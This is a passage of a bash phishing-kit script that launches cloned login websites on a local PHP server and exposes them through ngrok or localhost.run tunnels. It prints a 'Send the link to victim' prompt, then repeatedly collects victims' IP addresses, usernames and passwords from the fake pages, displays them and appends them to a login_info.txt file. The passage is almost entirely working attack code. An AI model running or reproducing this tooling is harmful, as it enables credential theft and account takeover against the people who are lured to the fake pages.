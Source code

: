 cd websites/$server && php -S 127.0.0.1:5555 > /dev/null 2>&1 &
sleep 2
./ngrok http 5555 > /dev/null 2>&1 &
sleep 10
link=$(curl -s -N http://127.0.0.1:4040/api/tunnels | grep -o "https://[0-9a-z]*\.ngrok.io")
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;96m Send the link to victim :\e[0m\e[1;93m %s \n" $link
found
}
start_local(){
def_port="5555"
printf "\e[0m\n"
printf ' \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Select a Port (Default:\e[0m\e[1;96m %s \e[0m\e[1;92m): \e[0m\e[1;96m' $def_port
read port
port="${port:-${def_port}}"
printf "\e[0m\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Initializing...\e[0m\e[1;92m(\e[0m\e[1;96mlocalhost:$port\e[0m\e[1;92m)\e[0m\n"
cd websites/$server && php -S 127.0.0.1:$port > /dev/null 2>&1 &
sleep 2
printf "\e[0m\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Launching LocalHostRun ..\e[0m\n"
printf "\n"
if [[ -e linksender ]]; then
rm -rf linksender
fi
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;96m Ctrl + C to view Login Info.Press it After the Victim Opened It.\e[0m\n"
printf "\e[1;93m\n"
ssh -R 80:localhost:$port ssh.localhost.run 2>&1
printf "\e[0m\n"
printf "\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;93m Login Info..\e[0m\n"
while [ true ]; do
if [[ -e "websites/$server/ip.txt" ]]; then
c_ip
rm -rf websites/$server/ip.txt
fi
sleep 0.75
if [[ -e "websites/$server/usernames.txt" ]]; then
account=$(grep -o 'Username:.*' websites/$server/usernames.txt | cut -d " " -f2)
IFS=$'\n'
password=$(grep -o 'Pass:.*' websites/$server/usernames.txt | cut -d ":" -f2)
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Account:\e[0m\e[1;96m %s\n\e[0m" $account
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Password:\e[0m\e[1;96m %s\n\e[0m" $password
cat websites/$server/usernames.txt >> websites/$server/login_info.txt
printf "\e[0m\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;96m Saved:\e[0m\e[1;93m websites/%s/login_info.txt\e[0m\n" $server
printf "\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;96m Press Ctrl + C to exit.\e[0m\n"
rm -rf websites/$server/usernames.txt
fi
sleep 0.75
done
}
start_l() {
def_port="5555"
printf "\e[0m\n"
printf ' \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Select a Port (Default:\e[0m\e[1;96m %s \e[0m\e[1;92m): \e[0m\e[1;96m' $def_port